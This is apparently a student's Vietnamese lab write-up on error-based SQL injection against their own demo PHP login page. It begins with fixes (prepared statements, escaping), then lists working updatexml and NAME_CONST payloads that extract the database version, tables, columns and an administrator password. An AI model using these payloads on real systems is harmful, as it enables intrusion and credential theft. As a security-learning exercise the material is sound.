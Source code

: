# Link demo : https://github.com/l3mnt2010/task2_KCSC/tree/main/demo/errorBase
# Cách khắc phục :
Có thể khắc phục bằng cách tham số hóa đầu vào của thâm số người dùng truyền vào bằng một số cách như là:
-  $stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
  $stmt->bind_param("ss", $username, $password);
  $stmt->execute();
- Hoặc làm sạch đầu vào   $cleaned_username = mysqli_real_escape_string($conn, $username);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.

- Đây là đoạn code dính lỗi sqli:

![Alt text](./imagesErrorBase/image-21.png)

- Em thử dùng lỗi error base để kiểm tra version của data base: em sử dụng payload : 
            username=aaa&password=hih'+OR+(SELECT+*+FROM+(SELECT+NAME_CONST(version(),1),NAME_CONST(version(),1))+as+x)--+-&login=

+ Em nhận được kết quả trả ra là
![Alt text](./imagesErrorBase/image-1.png)

- Một cách khác nữa là em dùng payload :
            username=aaa&password=hih'and+updatexml(null,concat(0x0a,version()),null)--+-&login

+ Em nhận được kết quả trả ra là :
![Alt text](./imagesErrorBase/image-2.png)

Và version của database là : 10.4.32-MariaDB

- Em tiếp tục sử dụng payload: username=aaa&password=hih'and+updatexml(null,concat(0x0a,version()),null)--+-&login=
![Alt text](./imagesErrorBase/image-3.png)
+ Em nhận được tên database là task2_kcsc:


- Em có thể thấy được là kết quả trả ra lỗi của database task2_kcsc bảng users khi em dùng payload:
        'admi'+and+updatexml(null,concat(0x0a, 
        (select+table_name+from+information_schema.tables+where+table_schema%3ddatabase()+LIMIT+1,1)),null)--

![Alt text](./imagesErrorBase/image-4.png)
- Nếu LIMIT 0,1 thì em có thêm thông tin tên bảng là products nữa ạ:
![Alt text](./imagesErrorBase/image-5.png)
- Mục đích chính của em là tìm mật khẩu của quản trị viên nên em tiếp tục tìm các cột khác trong bảng users
Payload : 'admi'+and+updatexml(null,concat(0x0a,(select+column_name+from+information_schema.columns+where+table_name='users'+limit+0,1)),null)--

Với LIMIT 0,1 em nhận được cột
'admi'+and+updatexml(null,concat(0x0a,(select+column_name+from+information_schema.columns+where+table_name='users'+limit+0,1)),null)--

Cột này chưa phải thông tin em cần
![Alt text](./imagesErrorBase/image-6.png)
em tiêp tục tăng giá trị lên 1 2 3 4 5 và lần lượt nhận tên các cột

+TOTAL CONNECTION
![Alt text](./imagesErrorBase/image-7.png)
+ USER
![Alt text](./imagesErrorBase/image-8.png)
+ id
![Alt text](image-9.png)
đây là tên id của người dùng 
+ password
![Alt text](./imagesErrorBase/image-10.png)
+ username
![Alt text](./imagesErrorBase/image-11.png)

- Sau đó em dùng payload: 'admi'+and+updatexml(null,concat(0x0a,(select+username+from+users+limit+0,1)),null)--
    
nhận được tên admin là administrator
![Alt text](./imagesErrorBase/image-12.png)
- cuối cùng em sẽ lấy mật khẩu administrator
Payload : 'admi'+and+updatexml(null,concat(0x0a,(select+password+from+users+where+username='administrator'+limit+0,1)),null)--
Và kết quả :
![Alt text](./imagesErrorBase/image-13.png)

-> Vậy là em đã nhận được mật khẩu là hihi123


